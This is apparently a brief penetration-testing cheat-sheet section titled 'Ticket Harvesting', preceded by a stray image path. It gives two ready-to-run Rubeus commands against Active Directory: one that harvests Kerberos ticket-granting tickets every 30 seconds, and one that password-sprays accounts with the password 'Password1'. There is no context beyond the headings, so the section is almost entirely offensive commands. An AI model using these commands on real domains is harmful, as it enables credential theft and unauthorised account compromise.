 # Ticket Harvesting

## Harvesting Tickets

```powershell
# Harvest for TGTs every 30 seconds
Rubeus.exe harvest /interval:30
```

## Brute-forcing / Password-spraying

```powershell
Rubeus.exe brute /password:Password1 /noticket
```

